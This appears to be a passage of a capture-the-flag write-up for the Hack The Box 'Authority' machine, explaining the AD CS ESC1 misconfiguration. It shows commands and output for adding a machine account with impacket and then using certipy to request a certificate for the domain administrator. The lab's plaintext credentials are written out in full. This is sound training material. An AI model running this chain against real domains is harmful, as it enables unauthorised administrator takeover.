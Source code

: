 ### ADCS (Active Directory Certificate Services)

AD CS is a server role that functions as `Microsoft’s public key infrastructure PKI implementation`. As expected, it integrates tightly with Active Directory. It enables the `issuing of certificates`, which are X.509-formatted digitally signed electronic documents that can be used for encryption, message signing, and/or `authentication` (our research focus). One important thing to note for ADCS is that certificates are independent authentication material and will be valid even if the user (or computer) resets the password.

[source: [https://posts.specterops.io/certified-pre-owned-d95910965cd2](https://posts.specterops.io/certified-pre-owned-d95910965cd2) ]

We can check the requirements for `ESC1` ➖

- Enterprise CA grants Domain Computers enrolment rights.
- Manager approval is disabled.
- No authorization signatures are required
- Certificate template security descriptor grants certificate enrolment rights to Domain Computers
- Certificate templates define EKU that enable authentication. (Here we have Client Authentication)
- The certificate template allows the requester to specify subjectAltName (SAN) in the certificate signing request. (Enrollee supplies subject is set to True)

```jsx
*Evil-WinRM* PS C:\Users\svc_ldap\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

The account `svc_ldap` has the privilege of adding a computer to the domain. The script `addcomputer.py`  can be used to add a computer to the domain.

```jsx
┌─[✗]─[noob@parrot]─[~/htb/authority/notes/certs]
└──╼ $addcomputer.py -computer-name 'NOOB$' -computer-pass 'n00brival' -dc-ip 10.10.11.222 'authority.htb/svc_ldap:lDaP_1n_th3_cle4r!'
Impacket v0.10.1.dev1+20230504.43204.0bdad34a - Copyright 2022 Fortra

[*] Successfully added machine account NOOB$ with password n00brival.
```

```jsx
(venv) ┌─[noob@parrot]─[~/htb/authority/notes/certs]
└──╼ $certipy req -u 'NOOB$@authority.htb' -p 'n00brival' -ca AUTHORITY-CA -target authority.authority.htb -template CorpVPN -upn administrator@authority.htb  -debug
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[+] Trying to resolve 'authority.authority.htb' at '10.0.2.3'
[+] Trying to resolve 'AUTHORITY.HTB' at '10.0.2.3'
[+] Generating RSA key
[*] Requesting certificate via RPC
[+] Trying to connect to endpoint: ncacn_np:10.10.11.222[\pipe\cert]
[+] Connected to endpoint: ncacn_np:10.10.11.222[\pipe\cert]
[*] Successfully requested certificate
[*] Request ID is 12
[*] Got certificate with UPN 'administrator@authority.htb'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```
